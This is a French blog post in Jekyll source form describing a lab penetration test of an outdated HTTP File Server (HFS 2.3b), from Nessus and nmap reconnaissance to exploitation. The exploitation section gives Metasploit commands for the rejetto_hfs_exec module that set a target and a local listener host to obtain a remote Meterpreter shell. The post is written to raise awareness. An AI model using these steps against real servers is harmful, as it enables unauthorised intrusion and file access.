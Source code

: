 ```yaml
---
layout: post
title:  "Test d'intrusion sur un HTTP File Server"
date:   2021-11-01
last-update: 
categories: securite
tags: http pentesting hfs
image: /assets/article/pentest/hfs/hfs.PNG
description: cet article présente un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```


> Cet article présente un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
>
> Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.

**HTTP File Server** abrégé HFS permet d'envoyer et de recevoir des fichiers en utilisant le protocole HTTP.
Le 31 octobre 2021, la dernière version était 2.3m.

Avec une ancienne version, la 2.3 b, il était possible d'obtenir un shell sur la machine avec metasploit.



## Reconnaissance

Lors d'une 1ère phase de reconnaissance, en lançant un scan avec Nessus, celui-ci a trouvé qu'un serveur HTTP HFS était installé à l'adresse IP <IP server> avec le port 80.

Petite remarques : cette hôte n'était pas détecté en lançant le scan nmap suivant : `sudo nmap -O <IP server>

![hfs-recon]({{site.url_complet}}/assets/article/pentest/hfs/hfs-recon.PNG)



On peut vérifier la présence du serveur en se connectant avec son navigateur. On arrive alors sur la page principale d'HFS.

On peut voir en bas que la version est 2.3. A ce stade, il n'est pas encore possible d'être sûr à 100% que cette version est vulnérable

![hfs]({{site.url_complet}}/assets/article/pentest/hfs/hfs.PNG)

## Exploit

En faisant une recherche avec google, un module metasploit efficace contre la version 2.3 b est disponible

Documentation : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

Il suffit alors de lancer metasploit, d'effectuer la configuration des hôtes et de lancer l'exploit

```bash
use use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <IP server>  #Target
set LHOST <IP localhost> #Local host ip
```

Bingo, la machine était bien vulnérable à l'exploit. On obtient par conséquent un shell sur la machine permettant de lire les fichiers s'y trouvant



![meterpreter-result]({{site.url_complet}}/assets/article/pentest/hfs/meterpreter-result.PNG)

## Source :

- Documentation metasploit : [www.rapid7.com - rejetto_hfs_exec/](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
- Site officiel de l'éditeur : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)
